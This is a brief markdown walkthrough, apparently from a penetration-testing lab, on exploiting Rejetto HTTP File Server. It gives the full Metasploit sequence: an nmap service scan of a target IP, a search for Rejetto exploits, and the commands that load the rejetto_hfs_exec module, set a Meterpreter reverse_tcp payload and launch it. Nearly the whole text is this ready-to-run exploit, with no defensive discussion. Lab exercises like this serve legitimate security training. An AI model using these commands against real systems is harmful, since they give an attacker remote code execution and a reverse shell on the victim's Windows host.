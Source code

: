 # Exploiting Rejetto HTTP File Server
#### INITIAL ENUMERATION:

```
db_nmap -sV 10.5.20.233
```

```
search name:rejetto type:exploit
```
#### EXPLOITATION:

```
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.5.20.233
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
